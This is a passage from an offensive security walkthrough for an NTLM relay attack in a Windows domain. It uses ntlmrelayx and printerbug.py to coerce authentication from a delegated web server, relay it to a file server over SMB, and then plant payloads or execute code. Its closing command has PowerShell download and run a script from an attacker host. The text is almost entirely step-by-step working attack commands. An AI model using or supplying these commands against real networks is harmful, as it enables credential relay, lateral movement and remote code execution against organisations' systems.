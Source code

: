 #### **Step 3: Setup `ntlmrelayx`**

You’ll use `ntlmrelayx` to relay NTLM authentication from **webserver01** (the compromised machine) to **fileserver01** (the target server with CIFS/SMB enabled).

On your attacker machine (e.g., **attackerbox01**), configure `ntlmrelayx` to listen for NTLM authentication requests and relay them to **fileserver01**. You’ll want to capture incoming connections and relay them to the **CIFS/SMB** service on the target:

```bash
ntlmrelayx.py -smb2support --no-smb-server --target smb://fileserver01.domain.com
```

- The `-smb2support` flag ensures compatibility with SMBv2, which is common on modern Windows systems.
- The `--target` flag specifies the target server you want to relay authentication to (in this case, **fileserver01**).

#### **Step 4: Coerce Authentication from the Delegated Machine (WebServer)**

To perform an NTLM relay attack, you need to coerce an NTLM authentication attempt from **webserver01** (which has constrained delegation). You can achieve this by forcing **webserver01** to authenticate to your attacker machine by using a tool like **`printerbug.py`** from the **Impacket** suite.

Run the following command on your attacking machine (attackerbox01) to trigger the authentication:

```bash
printerbug.py domain.com/webserver01 attackerbox01
```

This command will trigger **webserver01** to authenticate to your attacking machine **attackerbox01** using NTLM. Once the authentication is relayed to **fileserver01**, `ntlmrelayx` will intercept it.

#### **Step 5: Relay Authentication to Fileserver01**

Once **webserver01** authenticates to your machine, `ntlmrelayx` will relay the credentials to **fileserver01** and authenticate as **webserver01** using NTLM relay.

At this point, `ntlmrelayx` has authenticated as **webserver01** to **fileserver01** and has access to the **CIFS/SMB** service on that server. Depending on the level of access **webserver01** has, you can now perform various actions such as:

- Listing files on the **CIFS/SMB** share.
- Writing files (e.g., planting a malicious payload).
- Executing code remotely via a **psexec-style attack**.

#### **Step 6: Execute Code Remotely via CIFS/SMB**

Once you have relayed the credentials to **fileserver01**, you can now attempt to execute commands remotely. Using **`ntlmrelayx`** with the `--exec` flag, you can drop a reverse shell or other payloads onto the target.

For example, to execute a command on **fileserver01**:

```bash
ntlmrelayx.py -smb2support --no-smb-server --target smb://fileserver01.domain.com --exec "powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://attackerbox01/payload.ps1')"
```
